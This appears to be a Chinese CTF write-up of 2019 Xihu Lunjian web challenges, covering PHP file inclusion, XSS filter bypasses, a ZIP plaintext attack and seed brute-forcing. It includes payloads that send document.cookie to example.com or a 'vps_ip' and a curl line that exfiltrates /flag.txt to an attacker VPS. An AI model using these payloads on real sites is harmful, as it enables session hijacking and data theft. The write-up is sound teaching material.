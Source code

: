 ```yaml
---
title: 2019 西湖论剑 Web 复现
  - Writeup
  - CTF
date: 2019-04-25 21:02:00
---
```

蒟蒻的复现记录~

<!--more-->

## babyt3

babyt3(Ubuntu 16.04 php7.0) 61.164.47.198:10000

简单探测存在以下文件:index.php、dir.php、/.DS_Store。


![](/assets/images/move/1554987118360-7e79c95d-baaf-417a-bddd-7e92d5e94ca6.png)

由`include $_GET['file']`猜测存在文件包含~ 尝试PHP伪协议读取源代码：

```bash
http://61.164.47.198:10000/?file=php://filter/read=convert.base64-encode/resource=index.php
```

- index.php

```php
<?php
$a = @$_GET['file'];
if (!$a) {
	$a = './templates/index.html';
}
echo 'include $_GET[\'file\']';
if (strpos('flag',$a)!==false) {
	die('nonono');
}
include $a;
?>

<!--hint: ZGlyLnBocA== --> //-> dir.php
```

- dir.php

```php
<?php
$a = @$_GET['dir'];
if(!$a){
$a = '/tmp';
}
var_dump(scandir($a));
```

借助`dir.php`可以进行目录遍历，查找flag的位置。

```bash
//http://61.164.47.198:10000/dir.php?dir=/
array(25) { [0]=> string(1) "." [1]=> string(2) ".." [2]=> string(10) ".dockerenv" [3]=> string(3) "bin" [4]=> string(4) "boot" [5]=> string(3) "dev" [6]=> string(3) "etc" [7]=> string(16) "ffffflag_1s_Her4" [8]=> string(4) "home" [9]=> string(3) "lib" [10]=> string(5) "lib64" [11]=> string(5) "media" [12]=> string(3) "mnt" [13]=> string(7) "my_init" [14]=> string(10) "my_service" [15]=> string(3) "opt" [16]=> string(4) "proc" [17]=> string(4) "root" [18]=> string(3) "run" [19]=> string(4) "sbin" [20]=> string(3) "srv" [21]=> string(3) "sys" [22]=> string(3) "tmp" [23]=> string(3) "usr" [24]=> string(3) "var" }
```

确定`flag`位于**/ffffflag_1s_Her4**，利用文件包含进行读取.

```bash
//http://61.164.47.198:10000/?file=php://filter/read=convert.base64-encode/resource=/ffffflag_1s_Her4
ZmxhZ3s4ZGMyNWZkMjFjNTI5NThmNzc3Y2U5MjQwOWUyODAyYX0=
//flag{8dc25fd21c52958f777ce92409e2802a}
```

## Breakout

![](/assets/images/move/1554988767996-25426f38-a16e-47a3-97d2-d53f27b6de8b.png)

任意账号密码均可登录，个人中心页面如下：

![](/assets/images/move/1554989062396-72a5539d-b01a-4c26-9391-b5c05e0db9c2.png)

- `message`页面可进行留言，经探测对`script`等关键字进行了过滤，替换为`:) `。
- `report`页面用于提交BUG，管理员会加上用户的token去登陆查验。
- `exec`页面可执行命令，不过需要以管理员的身份（token）。

这样一来攻击思路就很明显了,绕过XSS过滤，在`message`构造包含恶意脚本的留言页面提交至`report`，进而获取管理员`token`用于获取在`exec`以管理员的身份执行命令获取flag。

### XSS绕过

- Payload1

在test.html中写入script>document.location="http://example.com/"+btoa(document.cookie) </script>

```html
<link rel=import href=//example.com/test.html other=
```

- Payload2

HTML实体编码绕过关键字过滤, HTML标签内的实体编码会自动解码。

> 1.进制编码:&#xH;(16进制格式)、&#xD;(10进制形式)，最后的分号可以不要。
> 2.HTML实体编码。

```html
<iframe
src="javascrip&#x74;:location.href='vps_ip'+escape(top.document.cookie)">
</iframe>
```

- Payload3 

换行符绕过

```html
<img src=x onerror
=prompt(1)>
```

### MD5截断比较

这里采用牺牲空间换去时间的方法，生成大量MD5值来进行匹配符合的条目。

```python
//生成脚本
# -*- coding: utf-8 -*-
import hashlib
sum = []
j = 0
f = open("gen_md5.txt", "a")
for i in xrange(1000000000):
    tmp = (hashlib.md5(str(i)).hexdigest(),i)
    sum.append(tmp)
    j = j+1
    if(j==10000000):
        for i in sum:
            f.write("{0} {1}".format(i,"\n"))
        j=0
        sum = []
f.close()
//检索脚本
# -*- coding: utf-8 -*-
f = open("gen_md5.txt", "r")
for line in f.readlines():
    if line[2:8] == 'c99dc2':
        print(line)
        break
```

提交获取管理员cookie：

```php
PHPSESSID=slsqh6lgqgtgkhfhitj327r7p7;token=ISMvKXpXpadDiUoOSoAfww==; admin=admin_!@@!_admin_admin_hhhhh
```


### exec

使用管理员cookie登录后可执行命令，但没有回显，尝试dns解析带出数据。

```payload
curl http:your_vps_ip:port/?$(cat /flag.txt|base64)
//ZmxhZ3tmYTUxMzlwYWU4MDhjNzA0ODVkZDVmMzAzMzcwMjZkNnO=
//flag{fa5139pae808c70485dd5f30337026d6}
```

## 猜猜flag是什么

![](/assets/images/move/1554998036810-320186e6-f98a-4349-a516-2a4d41ac42fb.png)

探测到`.DS_Store`文件，进行还原:

![](/assets/images/move/1554998298013-b7c0a254-8e1b-4664-91e5-ba73a51e17a0.png)

访问`/e10adc3949ba59abbe56e057f20f883e/`:

![](/assets/images/move/1554998403503-f7d8560e-b7c2-4751-9ca0-294672d223b2.png)

在此目录下发现`.git`泄露，使用Githack进行还原。

![](/assets/images/move/1555032494963-e02984c3-1570-47e5-893e-6af105072e12.png)

加密压缩包`BackupForMySite.zip`中包含`index.php`、`lengzhu.jpg`以及文件`hint`。已知`index.php`、`lengzhu.jpg`文件，我们可以对压缩包进行明文攻击。

> 简单来说，ZIP明文攻击就是利用已知文件找加密密钥，利用密钥来解锁其它加密文件，因为ZIP压缩包里的所有文件都是使用同一个加密密钥来加密的。

压缩文件`index.php`、`lengzhu.jpg`作为已知明文，使用`APCHPR`进行明文攻击。

![](/assets/images/move/1555033592861-03d3fa8f-cd7a-4ccb-910b-b0bfda917693.png)

成功获取密匙，解压得到hint:

```bash
code is 9faedd5999937171912159d28b219d86
well ok ur good...By the way, flag saved in flag/seed.txt 
```

提交code~

```bash
http://61.164.47.198:10002/?code=9faedd5999937171912159d28b219d86
```

![](/assets/images/move/1555033816792-8357863c-c4ea-4c3d-8962-9d8b4757c1c0.png)

可知flag在flag/seed.txt目录下，code=334579419是以seed为种子的播种随机数，可由code进行种子爆破得到seed~

![](/assets/images/move/1555034260821-5c126ad5-9e3b-4ded-b9eb-84341f609989.png)

在`http://61.164.47.198:10002/flag/814073.txt`获取到flag{0730b6193000e9334b12cf7c95fbc736}。
